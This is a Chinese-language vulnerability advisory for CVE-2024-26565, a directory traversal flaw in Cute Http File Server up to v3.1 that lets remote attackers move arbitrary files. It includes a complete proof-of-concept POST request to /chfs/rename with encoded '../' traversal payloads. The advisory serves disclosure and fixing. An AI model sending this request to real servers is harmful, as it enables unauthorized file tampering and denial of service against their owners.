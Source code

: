 <a name="JvhGQ"></a>
# 漏洞标题
Cute Http File Server 目录遍历（CVE-2024-26565）

<a name="P03iu"></a>
# 漏洞描述
<br />	Cute Http File Server v3.1 中存在目录遍历漏洞，远程攻击者可以通过构造恶意请求利用该漏洞将任意位置文件移至任意位置
<a name="hrkWW"></a>
# 
<a name="pSqun"></a>
# 漏洞类型: 

其他一个可以将文件从任意位置移动到任意位置的漏洞
<a name="AtZ97"></a>
# 
<a name="hXOsQ"></a>
# 厂商官方网站
[http://iscute.cn/chfs](http://iscute.cn/chfs)
<a name="gvSK3"></a>
# 受影响的厂商: 

Cute Http File Server
<a name="Wly70"></a>
# 
<a name="vPZ65"></a>
# 受影响的产品代码库:

 Cute Http File Server -<=3.1
<a name="UX44I"></a>
# 
<a name="rYEq8"></a>
# 受影响组件: 无

<a name="D0tbz"></a>
# 攻击类型: 远程

<a name="epjf7"></a>
# 影响: 服务拒绝

<a name="g7nlw"></a>
# 攻击向量
<br />攻击者可以通过向目标服务器发送恶意请求来利用此漏洞。具体而言，攻击者可以发送构造良好的POST请求到/chfs/rename端点，并在请求中包含恶意文件路径，从而导致文件被移动到服务器上的任意位置。

攻击示例:

```
POST /chfs/rename HTTP/1.1
Host: 192.168.129.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
cache-control: no-cache

Content-Type: multipart/form-data; boundary=---------------------------1006958098981045945336795099
Content-Length: 351
Origin: http://192.168.129.1
Connection: close
Referer: http://192.168.129.1/

-----------------------------1006958098981045945336795099
Content-Disposition: form-data; name="new"

..%2F..%2F..%2F..%2F..%2F..%2F..%2Fexp.txt
-----------------------------1006958098981045945336795099
Content-Disposition: form-data; name="old"

/../../../../..//0/Desktop/exp.txt
-----------------------------1006958098981045945336795099--
```

<a name="z01wz"></a>
# <br />修复建议
厂商应该尽快修复此漏洞，包括对用户提供的文件路径进行正确验证和过滤

<a name="DQRov"></a>
# 厂商确认情况:
厂商已确认该漏洞<br />	

<a name="CGdqE"></a>
# 发现者:<br />广州大学

<a name="OTmUZ"></a>
# 参考链接:<br />[http://iscute.cn/chfs](http://iscute.cn/chfs)
